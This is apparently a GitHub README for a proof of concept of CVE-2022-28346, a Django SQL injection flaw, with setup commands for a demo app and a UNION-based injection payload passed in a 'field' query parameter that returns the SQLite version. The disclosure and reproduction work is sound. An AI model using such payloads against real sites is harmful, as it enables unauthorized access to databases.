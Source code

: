 <h1 align="center">CVE-2022-28346 PoC <a href="https://twitter.com/intent/tweet?text=CVE-2022-28346 PoC : https://github.com/ahsentekdemir/CVE-2022-28346"><img src="https://img.shields.io/badge/Tweet--lightgrey?logo=twitter&style=social" alt="Tweet" height="20"/></a></h1>


### Impact:
- Potential SQL injection in QuerySet.annotate(), aggregate(), and extra().





## Installation 
```
poetry install
python manage.py makemigrations
python manage.py migrate
python manage.py loaddata data.json
python manage.py runserver
```

## PoC
```
?field=poc.title" FROM "poc_blog" union SELECT "-1,",sqlite_version(),"3" --
```
![poc-image](./poc.png)

## References
[CVE Mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-28346)

[Django](https://www.djangoproject.com/weblog/2022/apr/11/security-releases/)

